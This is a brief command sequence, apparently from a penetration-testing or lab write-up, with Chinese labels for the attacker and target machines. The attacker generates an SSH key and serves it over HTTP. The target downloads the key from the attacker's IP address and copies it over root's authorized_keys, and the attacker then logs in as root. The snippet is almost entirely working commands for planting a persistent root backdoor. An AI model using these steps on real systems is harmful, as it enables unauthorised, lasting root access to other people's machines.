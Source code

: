 攻击机
```bash
ssh-keygen -t rsa
cd .ssh
python -m SimpleHTTPServer 8000
```

靶机
```bash
wget http://192.168.1.248:8000/id_rsa.pub
cp id_rsa.pub /root/.ssh/authorized_keys
```

攻击机
```bash
ssh root@192.168.1.249 -i id_rsa
```
